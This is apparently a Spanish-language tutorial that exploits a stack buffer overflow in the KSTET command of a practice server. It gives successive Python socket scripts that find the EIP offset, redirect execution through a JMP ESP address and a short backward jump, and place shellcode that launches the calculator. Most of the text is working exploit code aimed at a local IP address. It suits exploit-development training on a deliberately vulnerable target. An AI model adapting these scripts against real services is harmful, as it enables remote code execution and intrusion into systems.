





Vamos a explotar la vulnerabilidad de KSTET
Primero vamos a revisar como ejecutar la función.
Usaremos Immunity y busquemos en "Search for -> All referenced text strings" y damos click sobre KSTET.
Podemos ver que hace un strncpy con KSTET y después hay un malloc con un espacio de 64 bytes, pero hagamos un pattern_create con mona y verifiquemos.
import socket
import struct
basura = b"A"*69
basura += b"BBBB"
soc = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
soc.connect(('192.168.0.9', 9999))
soc.send((b"KSTET /" + basura))
soc.close()
Pues al parecer con 69 bytes rellena la pila y 4 bytes más sobre escribe EIP. Ahora busquemos un jmp ESP con mona para lograr meter una shell ahí.
import socket
import struct
basura = b"A"*69
padd = b"D"*1000
soc = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
soc.connect(('192.168.0.9', 9999))
eip = struct.pack("I", 0x625011af)
enviar = basura + eip + padd
soc.send((b"KSTET /" + enviar))
soc.close()
Primero, colocamos un break en el JMP ESP para ver que pasa y vamos avanzando.
Aquí estamos en el padd, y más arriba podemos ver como la basura rellena la memoria. Pero hay un problema, el espacio es muy pequeño incluso para un egghunter, así que hagamos un truco que podría funcionar en algunos casos.
Vamos a ejecutar un jump que vaya hacia arriba, osea, al inicio de basura donde hay más espacio.
Para eso copiamos la dirección del inicio de 0x41, después con Assemble colocamos, JMP + dirección copiada y nos dará el short jump junto con la cantidad de bytes necesarios para llegar.

import socket
import struct
basura = b"A"*69
jmp_atras = b"\xeb\xb5\x90\x90"
padd = b"D"*1000
soc = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
soc.connect(('192.168.0.9', 9999))
eip = struct.pack("I", 0x625011af)
enviar = basura + eip + jmp_atras + padd
soc.send((b"KSTET /" + enviar))
soc.close()
Listo, podemos ver que salta al inicio de 0x41 además también podemos ver que no es necesario los nops "x90".
Ahora coloquemos una shell para que salte la calculadora y si todo va bien, funcionará.
import socket
import struct
shellcode = b"\x31\xc9\x51\x68\x2e\x65\x78\x65\x68\x63\x61\x6c\x63\x89\xe0\x41\x51"
shellcode += b"\x50\xbb\x10\x55\x5c\x76\xff\xd3\x31\xc0\x50\xb8\x40\x76\x58\x76\xff\xd0"
basura = b"A" * (69 - len(shellcode))
jmp_atras = b"\xeb\xb5"
padd = b"D"*1000
soc = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
soc.connect(('192.168.0.9', 9999))
eip = struct.pack("I", 0x625011af)
enviar = shellcode + basura + eip + jmp_atras + padd
soc.send((b"KSTET /" + enviar))
soc.close()
Recordemos que en los 69 bytes tenemos que meter la shell, así que reducimos la basura por la shell, incluso sería bueno eliminar unos 4 bytes para meter unos nop's al inicio, pero ahora no es necesario, así de simple esta bien.
Listo, pasamos la prueba KSTET